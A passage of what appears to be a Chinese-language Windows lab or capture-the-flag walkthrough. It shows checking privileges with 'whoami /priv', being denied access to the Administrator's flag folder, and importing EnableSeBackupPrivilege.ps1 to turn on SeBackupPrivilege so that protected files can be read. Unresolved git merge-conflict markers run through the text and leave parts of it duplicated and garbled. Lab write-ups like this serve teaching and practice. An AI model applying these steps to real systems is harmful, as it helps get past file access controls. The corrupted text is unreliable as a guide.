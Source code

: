 ```plain
                      启用 DHCP:   是
                      DHCP 服务器：172.22.255.253
                      IP 地址
                        [01]: 172.22.17.6
                        [02]: fe80::6ee2:423a:4d01:5191
Hyper-V 要求：已检测到虚拟机监控程序。将不显示 Hyper-V 所需的功能。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
```

查看特权信息，此时 SeBackupPrivilege 未开启：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
PS C:\Windows\system32> whoami /priv

特权信息
----------------------

特权名                        描述           状态
============================= ============== ======
SeBackupPrivilege             备份文件和目录 已禁用
SeRestorePrivilege            还原文件和目录 已禁用
SeShutdownPrivilege           关闭系统       已禁用
SeChangeNotifyPrivilege       绕过遍历检查   已启用
SeIncreaseWorkingSetPrivilege 增加进程工作集 已禁用
```

此时访问 Administrator 目录，提示拒绝访问：

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
PS C:\Windows\system32> dir C:\Users\Administrator\flag\
dir : 拒绝访问。
```

使用 [EnableSeBackupPrivilege.ps1](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeBackupPrivilege.ps1) 启用 SeBackupPrivilege：

<<<<<<< HEAD
```plain
Import-Module .\EnableSeBackupPrivilege.ps1
```

[![](assets/1710898759-2cf257b06f39fb2f0b987b607529971c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240313104353-87ede09a-e0e3-1.png)
